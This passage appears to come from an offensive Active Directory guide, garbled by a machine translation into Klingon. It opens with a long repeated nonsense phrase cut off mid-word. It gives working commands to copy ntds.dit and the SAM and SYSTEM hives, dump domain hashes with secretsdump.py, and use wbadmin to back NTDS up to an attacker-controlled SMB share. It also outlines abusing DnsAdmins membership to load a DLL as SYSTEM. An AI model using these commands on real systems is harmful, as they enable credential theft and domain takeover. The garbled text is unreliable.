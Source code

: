 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlhutlh. 'ej, 'oH vItlhutlh 'e' vItlhutlh, 'ach vItlhutlh 'e' vItlh
```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```
3. `SYSTEM` jev `SAM` jup 'ej hash retrieval:
```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
4. `NTDS.dit`-wIj DaH jatlhpu' 'ej DaH jatlhpu' 'e' vItlhutlh.
```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
#### wbadmin.exe vIq

1. Set up NTFS filesystem for SMB server on attacker machine and cache SMB credentials on the target machine.
2. Use `wbadmin.exe` for system backup and `NTDS.dit` extraction:
```cmd
net use X: \\<AttackIP>\sharename /user:smbuser password
echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
wbadmin get versions
echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

For a practical demonstration, see [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s).

## DnsAdmins

Members of the **DnsAdmins** group can exploit their privileges to load an arbitrary DLL with SYSTEM privileges on a DNS server, often hosted on Domain Controllers. This capability allows for significant exploitation potential.

To list members of the DnsAdmins group, use:
```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```
### Execute arbitrary DLL

Members can make the DNS server load an arbitrary DLL (either locally or from a remote share) using commands such as:

### ʼIwʼaʼ DLL
